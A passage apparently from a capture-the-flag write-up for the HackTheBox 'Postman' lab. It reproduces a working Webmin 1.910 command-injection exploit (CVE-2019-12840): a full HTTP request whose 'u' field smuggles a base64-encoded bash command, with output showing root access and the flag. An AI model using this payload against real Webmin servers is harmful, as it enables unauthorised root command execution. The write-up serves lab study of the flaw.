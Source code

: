 after looking a couple up this one sort of stood out (2019-12840).

https://github.com/Dog9w23/Webmin-1.910-Exploit/blob/master/Webmin%201.910%20-%20Remote%20Code%20Execution%20using%20BurpSuite

intercepted my connection with burp.

Modified the command to just `cat root.txt` and there we go.

```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Progressive-URL: https://10.10.10.160:10000/package-updates/update.cgi
X-Requested-From: package-updates
X-Requested-From-Tab: webmin
X-Requested-With: XMLHttpRequest
Content-Length: 116
DNT: 1
Connection: close
Referer: https://10.10.10.160:10000/package-updates/update.cgi?xnavigation=1
Cookie: redirect=1; testing=1; sid=4ae4346a6a9e0cfaffc12b4d51e0b4eb
Pragma: no-cache
Cache-Control: no-cache

u=acl%2Fapt&u=%20%7C%20bash%20-c%20%22%7becho%2cY2F0IC9yb290L3Jvb3QudHh0%7d%7c%7bbase64%2c-d%7d%7c%7bbash%2c-i%7d%22
```


here is the output from burp:

```html
<div class="panel-body">
Building complete list of packages ..<p>
Now updating <tt>acl  | bash -c "{echo,Y2F0IC9yb290L3Jvb3QudHh0}|{base64,-d}|{bash,-i}"</tt> ..<br>
<ul>
<b>Installing package(s) with command <tt>apt-get -y  install acl  | bash -c "{echo,Y2F0IC9yb290L3Jvb3QudHh0}|{base64,-d}|{bash,-i}"</tt> ..</b><p>
<pre>bash: cannot set terminal process group (702): Inappropriate ioctl for device
bash: no job control in this shell
root@Postman:/usr/share/webmin/package-updates/# cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce
root@Postman:/usr/share/webmin/package-updates/# exit
</pre>
<b>.. install complete.</b><p>
</ul><br>
No packages were installed. Check the messages above for the cause of the error.<p>
```

    `a257741c5bed8be7778c6ed95686ddce`



